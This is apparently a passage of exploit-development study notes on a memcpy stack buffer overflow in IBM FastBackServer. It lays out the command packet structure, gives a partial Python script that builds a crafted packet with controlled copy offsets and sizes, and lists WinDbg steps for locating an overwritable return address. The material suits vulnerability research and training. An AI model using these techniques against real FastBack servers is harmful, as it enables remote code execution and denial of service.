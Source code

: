 ```  
0x00       : Checksum DWORD  
0x04 - 0x30: psAgentCommand  
  - 0x04 - 0x10:  ??  
  - 0x14:         Offset for 1st copy operation  
  - 0x18:         Size of 1st copy operation  
  - 0x1C:         Offset for 2nd copy operation  
  - 0x20:         Size of 2nd copy operation  
  - 0x24:         Offset for 3rd copy operation  
  - 0x28:         Size of 3rd copy operation  
  - 0x2C - 0x30:  ??  
0x34 - End:  psCommandBuffer  
```  
  
Trying to step through the memcpy we get an access violation because we have input 0x41414141 to the offset field, giving memcpy an invalid Src buffer address.  
This alone can be useful for a DoS but doesn't give useful control over the application.  
  
### Exploiting Memcpy  
  
Update Python script to imitate psAgentCommand's expected structure and pass the checks (and not cause an access violation):  
```  
import socket  
import sys  
from struct import pack  
  
# Checksum  
buf = pack(">i", 0x630)  
# psAgentCommand  
buf += bytearray([0x41]*0x10)  
buf += pack("<i", 0x0)    # 1st memcpy: offset  
buf += pack("<i", 0x100)  # 1st memcpy: size field  
buf += pack("<i", 0x100)  # 2nd memcpy: offset  
buf += pack("<i", 0x200)  # 2nd memcpy: size field  
buf += pack("<i", 0x300)  # 3rd memcpy: offset  
buf += pack("<i", 0x300)  # 3rd memcpy: size field  
buf += bytearray([0x41]*0x8)  
  
# psCommandBuffer  
buf += bytearray([0x42]*0x100) # 1st buffer  
buf += bytearray([0x43]*0x200) # 2nd buffer  
buf += bytearray([0x44]*0x300) # 3rd buffer  
...  
```  
  
Because we control both the size parameter and source data that goes into these memcpy operations, we have good conditions for a memory corruption vulnerability.  
  
Checking Buffer Overflow Conditions:  
1. Set a breakpoint on the first memcpy `bp FastBackServer!FXCLI_OraBR_Exec_Command+0x43b` and send the new input  
2. `dd esp L3` show the pushed args, and `dd SRC_ADDR` (second arg) to confirm were pointing to the first section in psCommandBuffer filled with 42's  
- The theory of memcpy stack corruption is that a source buffer of unexpected size is copied into a destination buffer with insufficient size on the stack, eventually overflowing into a return address saved on stack. For this to work, the destination buffer needs to be stored at an address above the highest return address (so that the next return instruction will read our overflowed value). If it is stored below it, then we can't overflow into it to redirect program flow.  
3. `!teb` to ensure that the pushed buffer address is within the stack.  
4. `k` to retrieve the callstack and determine where our next return value is located. The return to ` FastBackServer!FXCLI_C_ReceiveCommand+0x130` is located at `0d51fe98` (may vary from run to run), where the preceding line ChildEBP is the stack location -0x04 of the return address from the following line's function call  
5. `dds 0d51fe98 L2` to show the return address stack location on the 2nd line  